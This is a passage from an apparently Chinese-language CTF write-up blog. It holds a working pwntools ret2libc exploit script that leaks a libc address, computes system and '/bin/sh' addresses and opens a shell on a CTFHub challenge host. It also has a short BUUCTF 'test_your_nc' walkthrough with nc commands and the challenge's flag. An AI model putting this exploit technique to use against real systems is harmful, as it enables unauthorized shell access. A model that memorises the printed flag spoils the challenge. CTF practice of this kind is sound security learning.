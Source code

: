 ```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('challenge-aa7fdc153a68545a.sandbox.ctfhub.com', 32528)
elf = ELF('./pwn')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']
pop_rdi = 0x400683   # pop rdi; ret
padding = cyclic(0x40+0x8)
payload = padding + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
io.recvline()
io.sendline(payload)
io.recvline()
puts_addr = u64(io.recvline()[:-1].ljust(8, b'\x00'))
log.success('puts_addr => %#x', puts_addr)
ret = 0x40048e  # ret
libc = ELF('./libc-2.27.so')
offset = {'puts': libc.sym['puts'], 'system': libc.sym['system'], 'sh': next(libc.search(b'/bin/sh'))}
# from LibcSearcher import *
# libc = LibcSearcher('puts', puts_addr)
# offset = {'puts': libc.dump('puts'), 'system': libc.dump('system'), 'sh': libc.dump('str_bin_sh')}
# Choose: libc6_2.27-0ubuntu3_amd64
libcbase = puts_addr - offset['puts']
log.success('libcbase_addr => %#x', libcbase)
system_addr = libcbase + offset['system']
log.success('system_addr => %#x', system_addr)
bin_sh_addr = libcbase + offset['sh']
log.success('bin_sh_addr => %#x', bin_sh_addr)
shellcode = padding + p64(ret) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr)
io.sendlineafter(b'\n', shellcode)
io.interactive()
```

------

## BUUCTF

### [test_your_nc](https://buuoj.cn/challenges#test_your_nc)

这题亏我还先`file ./test`查看文件类型再`checksec --file=test`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/test_your_nc/1.png)

结果输入以下代码就能拿到`flag{24c4fb91-44b7-4a4f-8f30-895875efacd7}`。

```bash
nc node4.buuoj.cn 27841 #使用nc连接node4.buuoj.cn的监听端口27841
ls #这步可以看到当前目录下有个flag文件
cat flag #直接输出flag即可
```
